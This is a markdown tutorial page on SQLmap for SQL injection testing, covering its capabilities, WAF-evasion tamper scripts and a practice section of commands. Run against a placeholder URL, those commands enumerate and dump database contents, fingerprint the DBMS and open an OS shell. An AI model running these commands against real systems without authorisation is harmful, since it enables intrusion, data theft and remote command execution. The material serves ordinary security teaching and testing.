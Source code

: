 ```yaml
---
title: 'Mastering SQLmap: Automated SQL Injection Tool'
description: Learn how to use SQLmap for automated SQL injection testing and database
  exploitation.
keywords:
- SQLmap
- SQL injection
- database exploitation
- automated testing
- open-source
- vulnerability detection
- DBMS fingerprinting
- WAF evasion
- command execution
---
```


# SQLmap

## Context

This article teaches the operational use of SQLmap, a powerful open-source tool for automated SQL injection testing and database exploitation. It assumes the reader is familiar with the basics of SQL injection, understands the fundamentals of database management systems, and is adept at handling HTTP requests.

## Theory

### SQLmap Purpose and Capabilities

SQLmap is renowned as an open-source tool specifically designed for automating SQL injection testing. Its primary goal is to ease the processes involved in detecting and exploiting SQL injection vulnerabilities within web applications.

The tool excels in automating the identification of exploitable SQL injection points, which can lead to database fingerprinting, fetching of sensitive data, and even executing commands on the database management system. It supports a multitude of DBMS, enhancing its adaptability and utility across different environments.

### SQLmap Configuration and Usage

To effectively utilize SQLmap, understanding its configuration is paramount. The configuration primarily involves specifying the target URL and the corresponding injection parameters. This sets the stage for the automation SQLmap offers.

SQLmap supports a wide range of database management systems, including but not limited to MySQL, PostgreSQL, Oracle, and MSSQL. It enhances flexibility and scope, catering to diverse database backends.

The tool streamlines the injection process through various command-line options, allowing for scripted automation that saves time and minimizes manual intervention.

### Advanced Features of SQLmap

SQLmap incorporates several advanced features, further broadening its exploitation capabilities. Among these, tamper scripts are particularly noteworthy. They enable SQLmap to bypass Web Application Firewalls (WAF) effectively, thus increasing the success rate of injection attacks on protected websites.

The integration capabilities of SQLmap with other exploitation tools present an opportunity to augment its functions, especially in sophisticated attack scenarios requiring multi-tool strategies. Additionally, SQLmap offers mechanisms to reduce noise and scope during attacks, optimizing stealth and efficiency.

## Practice

### Automated SQL Injection Testing with SQLmap

- **Identify databases on the target URL.**
  ```bash
  sqlmap -u 'http://example.com/vuln.php?id=1' --dbs
  ```

- **List tables in the specified database.**
  ```bash
  sqlmap -u 'http://example.com/vuln.php?id=1' -D target_db --tables
  ```

- **List columns in the specified table.**
  ```bash
  sqlmap -u 'http://example.com/vuln.php?id=1' -D target_db -T target_table --columns
  ```

- **Dump data from the specified column.**
  ```bash
  sqlmap -u 'http://example.com/vuln.php?id=1' -D target_db -T target_table -C target_column --dump
  ```

_Successful execution results in extracted data from the vulnerable database._

### Database Fingerprinting with SQLmap

- **Identify the DBMS and its version.**
  ```bash
  sqlmap -u 'http://example.com/vuln.php?id=1' --fingerprint
  ```

_The fingerprinting process unveils the database type and version, essential for planning subsequent attack phases._

### Command Execution via SQLmap

- **Obtain an operating system shell on the target.**
  ```bash
  sqlmap -u 'http://example.com/vuln.php?id=1' --os-shell
  ```

_Executing this command grants remote command execution capabilities on the target system._

## Tools

- **SQLmap**